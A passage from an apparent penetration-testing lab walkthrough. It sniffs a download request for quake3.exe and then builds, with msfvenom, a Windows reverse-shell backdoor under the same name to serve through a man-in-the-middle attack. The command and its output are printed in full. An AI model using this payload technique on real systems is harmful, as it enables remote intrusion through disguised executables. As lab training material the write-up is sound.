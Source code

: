 
Once you have started that, go back to __RAW Mode__ to see the traffic being captured. After some time you should see an interesting [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) request being made to __192.168.12.3__ for __quake3.exe__ from the Directors Computer.

<a href="/images/ptl-50.png"><img src="/images/ptl-50.png"></a>

## Utilizing a MitM (Man-in-the-Middle) Attack for Shell Access

Now that we know that the Director is trying to download quake3, let's see if we can't [MitM](https://en.wikipedia.org/wiki/Man-in-the-middle_attack) his download to server our own content... a backdoor shell!

We know that these devices are Windows Machines, so let's utilize msfvenom to craft a backdoor executable called "__quake3.exe__" that will connect back to the __192.168.12.2__ device via port 80.

```console
root@kali:~/pentestit# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.12.2 LPORT=80 -f exe > quake3.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
